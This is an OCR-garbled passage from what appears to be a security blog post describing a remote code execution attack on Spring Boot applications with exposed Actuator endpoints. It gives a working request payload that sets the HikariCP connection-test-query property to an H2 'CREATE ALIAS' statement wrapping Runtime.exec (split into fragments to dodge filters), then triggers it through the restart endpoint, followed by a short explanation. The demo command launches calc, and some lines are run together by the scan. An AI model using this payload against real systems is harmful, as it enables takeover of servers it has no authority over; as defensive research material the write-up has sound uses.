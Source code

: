  |

**\
**

**spring 2.x (execute command without echo)**

|

1

2

3

4

5

 |

POST /actuator/env

Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');"}

 |\
[](https://www.blogger.com/#)**Step 2: **Restart the application

**spring 1.x\
**

```
POST /restartContent-Type: application/x-www-form-urlencoded
```

**spring 2.x\
**

```
POST /actuator/restartContent-Type: application/json
```

#### Vulnerability Principle:

- The spring.datasource.hikari.connection-test-query property is set to a malicious SQL statement that CREATE ALIAScreates a custom function

- Its properties correspond to the connectionTestQuery configuration of the HikariCP database connection pool and define the SQL statement to be executed before a new database connection

- restart restarts the application, a new database connection will be established

- If the custom function in the SQL statement has not been executed, the custom function will be executed, resulting in RCE vulnerability
